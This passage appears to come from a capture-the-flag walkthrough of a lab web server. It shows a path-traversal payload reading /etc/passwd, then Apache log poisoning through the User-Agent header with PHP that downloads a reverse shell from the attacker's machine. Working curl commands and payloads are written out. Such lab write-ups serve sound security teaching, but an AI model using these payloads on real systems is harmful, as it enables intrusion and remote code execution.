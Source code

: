 Our payload would look like the following.

```
/var/www/html/development_testing//..//..//..//..//etc/passwd
```

Let's put our payload in the view parameter.

![](8.png)

We managed to read the passwd file and confirmed the LFI vulnerability.

# **Foothold**

## Log Poisoning

We know that the web server is Apache, so we're going to use a technique called `log poisoning`. For more information, check this [article](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/).

The file we're going to poison is `/var/log/apache2/access.log`. We can access it through the lfi with the following payload.

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//log/apache2/access.log
```

![](9.png)

We are going to put a php code that would upload a php reverse shell we're going to serve on our attacking machine.

The reverse shell we'll be using is [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s.

We server the file with a python http server `sudo python3 -m http.server 80`.

For the log poisoning part, we're going to replace our user-agent header with a php code that's going to upload the reverse shell to the web server.

```php
<?php file_put_contents('shell.php',file_get_contents('http://10.11.10.10/shell.php'))?>
```

Now we can request the test.php page for example and put the code above as our user-agent.

```bash
curl http://mafialive.thm/test.php -A "<?php file_put_contents('shell.php',file_get_contents('http://10.11.31.131/shell.php'))?>" 
```

![](10.png)

To trigger the php code, we run the following command that requests the access.log file.

```bash
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//log/apache2/access.log 
```
